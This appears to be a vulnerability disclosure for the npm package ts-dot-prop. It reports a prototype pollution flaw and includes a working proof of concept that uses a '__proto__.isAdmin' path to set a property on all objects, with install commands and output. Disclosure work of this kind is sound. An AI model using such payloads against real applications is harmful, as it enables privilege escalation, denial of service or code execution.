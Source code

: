 # Description

`ts-dot-prop` is a typeScript utility to transform nested objects using a dot notation path.
This package is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const tsDot = require('ts-dot-prop');
var obj = {}
console.log("Before : " + obj.isAdmin);
tsDot.set(obj, '__proto__.isAdmin', true);
console.log("After : " + obj.isAdmin);

```
2. Execute the following commands in another terminal:

```
npm i ts-dot-prop # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : true
```
